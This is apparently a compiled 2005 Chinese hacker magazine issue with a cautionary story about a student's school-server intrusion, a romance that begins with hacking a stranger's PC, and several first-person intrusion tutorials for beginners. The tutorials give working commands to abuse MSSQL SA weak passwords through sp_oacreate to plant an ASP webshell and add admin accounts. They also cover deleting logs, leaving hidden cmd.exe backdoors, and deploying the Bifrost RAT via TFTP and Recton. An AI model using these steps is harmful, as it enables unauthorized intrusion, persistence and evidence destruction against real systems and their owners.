# 黑客X档案合订本2005年（上）第二部分

---

# 侠隐仙踪

“拯救”服务器，但一旦服务器稳定下来，小龙估计又得成为“无业学子”。最近不知什么原因，学校服务器老是遭到骇客的骚扰，让人费解不明。他就中意于校园中的一些资料，不是注册……便就是在上面疯狂涂鸦，弄得领导们非常生气。网络警察对这事也感到非常麻烦，如果对方是偷取试卷或删改成绩，可以把范围缩小到学生身上从而减少破案难度，而眼前的这个骇客似乎有点“另类”。事实上，从服务器第一次被入侵，校园就已经高度重视，不惜人力、物力、财力：购买了专业的硬件防火墙，维护服务器的安全人员也增加了3名。不过这名骇客却依然能够“出入自由”，并且入侵也日渐频繁起来，两三天被入侵一次是常有的事，使得这个本来就不平静的学校更加热闹了。

服务器房里，小龙和微机组的唐Sir正在对早上的入侵事件进行分析，希望发现点蛛丝马迹。骇客似乎对这个服务器内部很熟悉，虽然WEB目录被隐藏得很巧妙，但依然在这名骇客的监视控制范围之内。从某种角度上说，小龙和唐Sir是在徒劳。以前安全组的老师们为了抓住这个骇客，用了最好的策略、监视工具，随后还动用了高价从国外购买的“蜜罐”，可是还是没能抓住骇客。

“哦？”唐Sir发出一声轻叹，好像发现了什么。

“怎么样了？”闻声，小龙离开自己的计算机凑到唐Sir身旁问道。

“没……没什么，你调查得怎么样了？”唐Sir一下子显得有点不自然起来。

“唉，还不是老样子。”小龙满脸无奈地回答道。

“那今天就到这里吧，天色不早了，你也该回家了，不要让父母担心，我再多待会儿。”说完，唐Sir转过头，继续敲打起键盘。

夜深，小龙面无表情地坐在电脑面前，连续打开了2个CMD，先用NC监听本地的TCP端口：1234，又在另一个CMD下输入：`nc -vv xxx.xx.x.xx 80`（X为学校服务器的IP）。由于服务器有防火墙“罩”着，小龙只好利用时下流行的反弹原理去获得SHELL，紧接着他又在远程CMD下执行了一串命令，再看那个监听本地端口的命令提示符，“哈，已经获得了一个SYSTEM权限的CMD SHELL了。”

望着屏幕，小龙皱了下眉头，直觉告诉他今天这个服务器有点“不一样”，因为获得SHELL的时间比以前要慢一些，而且执行命令时响应时间也显得很长。小龙立刻断开了和服务器的连接。

“叮……”桌上的电话突然响了起来。

“小龙，你为什么这样做？”打来电话的是唐Sir。

小龙愣了一下，“唐Sir？唉，还是被你发现了。谁让学校那么小气，不让我维护服务器，这么做既给学校一点小小的‘惩罚’，而且我又可以再次管理服务器，一举两得。”

“小龙！别嘻嘻哈哈的，校长已经报警了，你知不知道，你已经闯下大祸了？”

“我闯啥祸了？唐Sir，别逗了……”小龙正准备继续讲下去，楼下却响起了刺耳的警笛声，一闪一闪的红光在黑夜里显得格外醒目……小龙的笑容一下子消失了，手指僵硬地敲打着键盘，脸色也有些发青。

“唐老师，我真的闯祸了吗？不，这不是真的，你在逗我是不是？唐老师？”

> “虽然你入侵学校服务器并没有窃取、泄露重要的资料，但是根据相关法律条文，你在未经学校同意的情况下，擅自对服务器进行扫描并恶意入侵，进入系统后删除服务器上的数据，这已经违法了。小龙你已经是成年人了，对自己所做的一切就应当负起相应的责任来。也怪我这为人师表的没做好，平时只注重你的技术培养却忽视了教育你做人的基本准则，而后者才是最重要的啊！”

“可是我并没有黑掉服务器啊！”

“你还没明白吗？你擅自利用工具，对学校服务器进行入侵就已经违法了！”

片刻的沉默终于在急促的敲门声中被打破，小龙僵硬地打开房门，接下来的情形不用我多说大家也知道了吧，电视上重复过此类情景也不知道有多少遍了，只不过电视剧是虚构的故事，而这次却是真实发生的。小龙被带走时还在苦苦哀求：“能让我再和老师说几句话吗？”几个男警察中带头的是一个40多岁的中年人，他看着小龙，最后还是微微地点了点头，同意了小龙的请求。

> “唐老师，你早就知道是我，对吗？”

“嗯，不过最开始我也只是猜测，当你连接我已经修改过的你的backdoor（后门）时，通过IP我才肯定了我的猜测。至于发现你的后门，虽然你自己用后门替换掉了系统的正常文件而且连大小也没改变，但是你却忽视了文件的MD5值验证，即使是大小一样的文件，如果内容哪怕改变了一个字母，它的MD5值也是和原来的文件的MD5值不一样的。”

“唐老师，我知道错了，我不想被他们带走，我好怕！”

“别怕，他们都是好人，是帮助你改正错误的。孩子路还长，回头不晚，唐老师没能教导好你，唐老师对不起你……”

翌日，学校。

“入侵服务器的竟然是小龙！”

“听说他被警察带上车时都哭了，似乎还轻轻地说着什么。”

“真是个怪人。”

有的朋友可能会问文中小龙为什么不使用代理或跳板来达到隐藏自己IP的目的。首先，针对代理查询实IP的软件在网上已经出现，而小龙由于嫌麻烦，平时并没有养“鸡”的习惯；而最重要的是他对网络犯罪意识的薄弱，他觉得即使学校知道那些“小事”是他做的也不会有什么事。本文旨在以小龙的例子提醒大家对网络犯罪的重视，也使那些恶意入侵修改的骇客能够悬崖勒马！



# 黑客与女孩之网络情缘

黑病毒 [C.S.T]

一个用黑客技术得来的女孩子，我从未料到竟会如此投入……这故事好长好长，那个女孩子我也正在苦等着，也许这就是美好的回忆吧！记得是去年刷QQ币、入侵广东的ADSL宽带电脑的时候，才邂逅了这段动人的故事！

那天，我和平时一样，重复着三点一线单调的生活：上班，下班，回到家上网，坐在电脑旁，浏览国内外最著名的网络安全站点，吸收着最新的网络安全技术。日复一日，年复一年。在别人眼中，我的生活是没有任何色彩的平凡，但我自己却感到每天都非常充实。那天我在网上看见了一篇如何刷QQ币的教程，心里不禁想试一试。那个教程中讲的是：

入侵广东省的宽带ADSL用户的电脑，用入侵过的账号密码去刷QQ币，一次可以刷100个，谁不心动呀。于是我也用简易的方法寻找MS-SQL的SA弱口令。不到一会儿就扫描出了很多广东省的用户，每个都试了一试，能入侵的都保存了。我用radmin软件控制了其中的一台电脑，发现了一个女孩儿正在用QQ和网友聊天。当时我查看了她的QQ文件夹找到了女孩的号码，加入了我的好友里面。起初开始和她说话，她竟然不理我，我很生气。本想偷了她的QQ密码什么的好教训她一下的，可是后来看看是女孩子的份上还是没有去做。我上传了一个木马，监控了她的屏幕，并在她的桌面上建立了一个文本文档开始和她聊天。女孩在QQ中还没输完要问的话，我就已经在她的电脑上把回复打了出来。虽然我看不到她当时脸上的表情，但我可以猜想到，女孩儿一定是非常非常惊讶的。我看到她在屏幕上停止了活动，大约一分钟后，杀毒软件启动了。这个mm还真有点儿常识呀，居然知道运行杀毒软件。只可惜这次碰到的是我黑病毒，我得意地笑了。杀毒软件什么也没有查出来，女孩儿开始在QQ中问我是谁，是怎么进入她的电脑的。最后我还是告诉了她，并帮她修复了电脑上存在的安全漏洞，就离开了她的电脑。

事隔多月，又一次上网，我们在QQ上再次相遇。一回生，两回熟，我们开始聊彼此的爱好，彼此的工作，那天我们聊到好晚。自那天以后每天上网我们都要聊上好长时间，话题也越来越多，从罗密欧与朱丽叶到柏拉图的爱情，从蓝火的雷拉米修斯到圣斗士星矢，从凯文·米特尼克到比尔·盖茨……我们谈天说地，谈星星；说亮亮，笑语声中，夹带着那么一点爱意！阳光的夏天，每晚上都到十二点多我们才相互问候晚安。这样的生活，这样的网络，让我如痴如醉。她对我的感觉也从最初的害怕转变为了有些好奇。每天我上网她都要问我叫什么名字，是干什么工作的。我只是半开玩笑地说，像我们这样的入侵不能说出真实身份，请原谅。对她这个不懂网络安全的人来说，告诉一个名字也不算什么的，但我还是保持着原则没有说。就这样一天一天地过去，我们在网上还是天天聊天。突然有一天，她说你喜欢我吗？我愣住了，停顿了一会儿，我终于打出了那两个字“喜欢”。也许是我的直觉告诉我喜欢，也许是我内心里真的喜欢，也许我也不知道是因为什么，就这么打上去了。她在QQ中继续问道，你喜欢我什么？是真话还是假话？我回复说：是真的，喜欢你的温柔、善良，很重感情！她笑了……我知道她也是喜欢我的，也不是当初的那种好奇心的喜欢了。我们俩的感情又有了变化，更深，更浓了……！

在以后的日子里我们聊得非常投缘。每天上网以爱人相称，就这样我打破我的原则，把名字和电话告诉了她，她也告诉了我。我们相爱了，在虚拟的网络世界里，真的相爱了。每天晚上她都会给我打电话，聊一天的工作学习，放松一下一天的紧张气氛。可是这美好的爱情，不长远，也许是因为我。我不知道爱是不是就注定彼此的伤害，彼此给予着太多的痛苦。爱过了，我无法了解自己内心深处的那份感觉，是自怜，是疑惑，抑或其他。总之，在选择继续和放弃的同时，我经受着一天又一天的煎熬。

那天，2005年3月30日的那天晚上。我回来了，拖着自己疲惫的身躯回来，回到了我的小屋，里面有着我的最爱“电脑”与“网络”。故事是如此难以让人忘却，但现实却是这个世界上人人都要面对的事实，不管你是hacker还是管理员，还是从事着其他的工作。生活就是这样的现实，这样的无奈……曾经我爱过，曾经我恨过。在爱与恨的对立之间，我这个一心以技术为主的人，两者都没有选择，而是默默地在我的网络安全海洋里找回我的尊严。多少次爱情放在我面前我没有珍惜，这一切的一切都是为了自己能更好地发展个人的事业。也许是事业心太强了，我变了……我变了……我变得稳重了，变得自信心强了。一个好女孩是那么地难找，而她是那么地爱我。网络……网络……是你，让我们相识、相知、相爱，而你又给了我们一个不算美好的结局。女孩的痴情让我感动，她是那么地爱我，是那么地好。可这都是不现实的事，如果两个人能在一起，我会对她说，“我爱你。”

那天晚上女孩又上网了，我们都很冷静，向对方问了个好，开始了对现实生活的言谈。

她说：“好久不见了。”

我本能反应回了一句：“嗯，是呀。”

“你很忙吗？”她问道，我说“还行。”

“这些日子你过得还好吗？”她说。

“还好，不过还是有点想你。我这个人没什么好想的，也许是天意注定我们不能在一起。”我回复道。

她说：“这我明白！”

我说：“我也想过和你一起，但这是不现实的，我们双方都有自己的工作，家乡也不同，谁也无法放弃工作去对方那边，那样更不现实了。”

“做普通的朋友总还可以吧？”她问道。

“嗯，当然可以。”我回答道。

她问道：“你是不是有女朋友了？”

“没有，像我这样的人谁愿意要呀。啊呵！我现在差不多把所有的时间都给了电脑，用来学习我自己喜欢的技术。我没有时间去哄女孩子开心，也没有时间去陪女孩子逛街shopping，更没有时间去陪女孩子出去游玩，女孩子谁也不愿意跟我的。”我说道。

“别这样说，如果我在你们那儿，我肯定会选择你的。毕竟让我这么动情的男孩子，只有你一个。”我们俩都笑了。

“说说你是怎么对我动情的吧？”我问道。

她说：“事到如今还说什么呀。”她又问道：“你对我到底是什么感觉？”

“感觉你很好，很重感情，很善良，当时真的想过与你在一起。”我说。

“那现在为什么不想了呢？”

我说：“就算现在想，也是白想了。我们能在一起吗？我们都要面对现实生活的，你说呢？”

过了良久，她说道：“是的呀，现实太残酷了。”

我说：“这不是残酷，如果我们可以我会爱你。”

她说：“不管怎么样我都会想你的。”

我说：“冰，我要睡了。”

她说：“你去吧，好好休息，明天还要上班呢。”

我说：“我希望你每天都能开开心心，不要有任何的烦恼。”

她说：“你也一样！也希望你的事业早日成功。”

就这样我们各自离去了，临走的时候我对她说，希望也可以把我们的这段故事写出来，就算是留作一段美好的回忆吧。她答应了！这一次我们从30日晚上一直聊到1日的1点多才入睡。第二天早上，我忍不住上了网，QQ上她的头像狂闪，是她给我的留言：

我以为这一辈子再也遇不到会令我心动的男孩子。我和他在网空相识，应该算是一种缘分吧！能和他发展到现在简直就是天奇迹。爱是踏破红尘望穿秋水，爱是一生一世冥冥轮回，爱他，我从不问理由。或许别人会认为我很傻，对爱情那么执着，说实在的，连我自己也想不到为什么会变成这样，或许是他改变了我。对一个从来不相信网络情缘的人来说，似乎已经超越了极限。爱情很慢很慢，时间却过得很快；寂寞很长很长，人生却很短。转眼之间我和他认识也有10个月了，可我对他的了解却少得可怜。他的世界我总是进不去。

很高兴我还是认识了他，虽然相隔遥远，但我相信，心与心之间应该没有距离。是网络让我们走到了现在，我会珍惜这份感情到永远。但愿在以后的日子里，我能在他的记忆中增添一份美好的回忆。如果爱上他是一种错的话，我宁愿永远地错下去。

曾经笑过，曾经哭过——早知道和他注定是无尽的忧郁，我却不知该如何收回我的心意！！

我面对这些还能说什么呢？泪水不由自主地滑落了下来，滴湿了我的衣领……有多少爱可以重来！

# 一个人的战争




小花

```html
value="ok!">
</form>
```

把上面的代码保存成 `.htm` 文件就可以了。上面的 `dir` 是要执行的命令，可以换成其他的。这里因为ASP权限问题，能执行的命令很少，常用的命令比如：

```bash
dir copy del
"net user"（不能执行“net user /add”，权限不够）
"net start"（只能查看信息，不能启动/停止服务）
"net view"
ipconfig
set
"netstat -an"
ver
```

这是我以前总结自己的一次入侵过程，整个过程很简单。入侵后我就把过程笔记记录了下来。今天凭着记忆整理了一下，适合初学者，希望能给菜鸟朋友一点帮助。

## 入侵过程

## 第一步：扫描网站

找了个IP段，可能是广东那边的，用XSCAN扫描，选择的是常规端口。扫描结束，发现一个IP地址上SQLSERVER的SA账户密码也是SA。发现入侵点，扫描结束。

### 第二步：

用工具Sqlexec连接，发现连接成功，不能执行命令。看来管理员把`xp_cmdshell`给删了。换到SQLSERVER查询分析器登录，输入自己要连接的IP和用户名密码，登录成功。登录后先看版本信息：

`select @@version` 发现是“SQLSERVER 760 WIN2000 SP4”……

尝试恢复`xp_cmdshell`：

`exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'`

返回找不到`xplog70.dll`的信息，恢复失败。于是先想办法拿到WEB路径。

```sql
create table [tbltemp] ([stripath] [char](255), [result] [varchar](255))
exec master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\ControlSet001\Services\W3SVC\Parameters\VirtualRoots',
'/', @result output
insert into tbltemp(stripath) values(@result)
```

运行后，再 `select * from tbltemp;`，得到路径如 `c:\inetpub\wwwroot`（其实可以猜出来），之后删除自己建的表。

在SQLSERVER分析器中运行上面的语句如果不行，需要按具体情况改写查询语句，关键是思路。

### 第三步：写入一个小型 ASP SHELL

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'cmd.exe /c echo ... > c:\inetpub\wwwroot\shell.asp'
```

如何利用，我当时使用了网页连接，如下：

```html
<form action="http://218.*.*.*/shell.asp" method="post">
<textarea name="aspcode" cols="200" rows="9">
...ASP 代码...
</textarea>
<input type="submit" name="submit" value="ok!">
</form>
```

这些都是刺探信息用的。

## 第四步：进入终端

本来到这我就不想入侵了，想着开终端还得重启。有的机子如果设了BIOS密码，还得等管理员登录后才行，时间太长。可是运行到 `net start` 时发现开了 Terminal Service，可能3389端口被改。于是继续查端口。

```bash
regedit /e filename.reg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
```

然后 `type filename.reg`，里面有 `PORTNUMBER`，是十六进制。比如 `00000EA4`，10进制是3684。文中提到 `regedit /e` 似乎不能直接由ASP木马执行，后来改用SQLSERVER成功执行。

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'cmd.exe /c regedit /e filename.reg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp'
```

好了，到这就剩添加用户了，再运行……

```sql
declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamethod @o,'run',NULL,'cmd.exe /c net user xiaohua 123456 /add'

declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamethod @o,'run',NULL,'cmd.exe /c net localgroup administrators xiaohua /add'
```

## 第五步：清理战场

用登录器登录终端成功。登录终端后……

要掩饰踪迹，首先删日志。在计算机管理那里三个系统日志，再者WEB日志也得删。WEB日志记录在“`%windir%\system32\logfiles\w3svc1`”目录下，文件按日期分行，把入侵那天的删了就行了。删之前先停掉服务 `net stop w3svc`，删除日志后开启服务 `net start w3svc`。

日志删了，其他就是添后门、隐藏账户了，这种文章很多就不写了。这时可以查看一下管理员在不在，CMD下运行 `query user` 发现只有自己登录着。再看一下管理员登录日期，运行 `net user administrator` ……

# 总结

文章没什么技术性，只是常规入侵方法的一种总结，是为了给那些初入黑道朋友的一点提示和入侵的大体思路。

（文字中涉及到的程序XSCAN、Sqlexec、SQLSERVER查询分析器已收录于光盘中）



linxinsnow

正文左栏：作者个人经历叙述，从发现站点漏洞、论坛页面、FrontPage扩展漏洞到尝试入侵的过程。

## 天赐良“鸡”



正文中栏：通过FrontPage、端口信息（21/80/3389/1433）与服务配置继续分析，推断可利用SQL默认高权限获取系统访问。

## 屡开鸡舍——开配钥匙



正文右栏：通过TFTP32、NC获取shell，搜索服务目录配置并提取MSSQL用户名与密码，随后远程管理登录。

```ini
UserID=sa
UserID=ABCDE
Password=ABCDE
Password=ABCED
[Config]
OneLoginPerIP=1
```

```bash
net user guest /active
net user guest linxinsnow
net localgroup administrators /add guest
```

## 三、鸡场主：我被发现了……



# 一个人的战争

我靠，linxinsnow！你小子被发现了！看来管理员发现了 GUEST 账号被启用了，知道自己的服务器被人侵入了。我后悔啊！没有把痕迹给清除干净……

- **A方案：** 告诉管理员你就是入侵他服务器的……
- **B方案：** 让论坛灌水，或者 DDoS……
- **C方案：** 继续尝试恢复控制权。

- 1. WEBSHELL 位于 D:\ 的网站目录（文件名 CMD.ASP）
- 2. SERV-U 的管理员账号
- 3. SQL 的账号、密码（最有希望）
- 4. C:\inetpub\scripts\linxinsnow.exe（CMD.EXE）

下面进行验证。在 IE 输入 XXX.XXX.XX.XXX/cmd.asp，果然找不到文件。再登录 FTP 也无法登录。连上 1433 后，弹出错误信息……

```text
Connect SQL Server XXX.XX.XX.XXX Stand by

Connect SQL Server XXX.XX.XX.XXX Failed
Please Check UserName and Password
```

唉，看来管理员把该堵的都堵了啊！抱着最后的希望我在 IE 里输入：XXX.XXX.XX.XXX/scripts/linxinsnow.exe/c+dir……

# 四、总结

留下后门！一定要留下后门！并且最好不要用木马，而要用一些“正规”手段。像把 cmd.exe 隐藏在 scripts 下，一般不会被注意，而且不容易被查杀。

管理员们，你们的宝贝安全吗？你真的仔细检查过了吗？千万要小心哦！一个疏忽，你们引以为自豪的服务器可就成了我们的“鸡宝宝”了哦！

```text
小技巧5：修改3389端口（注册表）

KEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp\PortNumber

query user
find "console"
shutdown /l /f
```

本人不才，小小经历，见笑了。（文中涉及到的程序流光仅收录于 FTP32、NC、SQL 远程管理工具包等）



学过计算机的朋友都应该接触过局域网吧，也就是我们常说的 LAN。在 Win98“横行”的年代应该经常听到 XX 的机器被攻击了……

# 一、获取目标

这一步就是所谓的“踩点”，不过不要误会了。先用 2K/XP 提供的 IP 查看工具，在命令行输入 IPCONFIG /ALL，执行后就可得到很详细的信息……

```text
IPCONFIG /ALL
PING A99
```

```text
（图1）Windows 2000 命令行：ipconfig /all 输出网络配置信息
```

```text
（图2）Windows 2000 命令行：ping a99，出现 Request timed out.
```

运气还不错，就是 A99，IP 地址也出来了，就是 192.168.0.99。有人要问，为什么都是“Request timed out”却能得到信息？正常情况下会显示 “Reply from host XXXXX.” 的信息，然而这里没有，相反却显示了对方的 IP。其实对方仅仅安装了防火墙，将“PING”给屏蔽掉了；不过虽然不通，但是 IP 还是可以获取到的。

# 二、配置远程控制程序

上面获取的信息先放一下，等一会再说，这里先说远程控制程序。这里选用的是 Bifrost v1.1。其生成的控制端文件很小，但功能却很强大……执行主程序，在主界面上点击“Builder”按钮进入设置界面，在 DNS/IP 后面输入本机的机器名或 IP 地址，因为本程序是一个端口反弹的控制程序，可以穿透防火墙；Port 后面则是本机监听等待连接的端口；Password 后面就是连接时用的密码（图3）。


端口和密码最好修改一下，不要用默认的，以防辛辛苦苦得来的肉鸡自己跑了。其他的就不多说了，留待大家自己玩吧！

# 三、远程文件传输

上面远程控制程序配置好了，但是仅仅如此是没有用的，只有将控制端文件在被控端的机器上执行才会有用……既然要在对方机器上执行，那么须先将文件传上去。可用什么方法？对，用 TFTP。这个是“冲击波”告诉我的哦！另外可在本机执行 FINDPASS 获取当前登录用户的密码……由于很多场景下用户属于 ADMINISTRATORS，因此拿到本地密码往往等于拿到所有权限。



执行 TFTPD32 这个服务端程序（图4），相应的设置这里就不多说了；在 SETTING 里面（如果不熟悉英文的话，可以去网上找汉化版的），“Server Address” 后面的就是本机的 IP 地址，也就是一会儿要用到的 TFTP 服务器 IP，记下。

现在我们要请出杀手锏——Recton v2.0 了，通过它，我们可以远程在对方机器上执行命令。执行 Recton，在“远程主机”填入对方 IP，这里是“192.168.0.99”；“用户名”填当前用户；“密码”填前面获取的；“CMD”处填写要远程执行的命令，这里要把文件传到对方机器上，所以用 TFTP 命令（图5）。

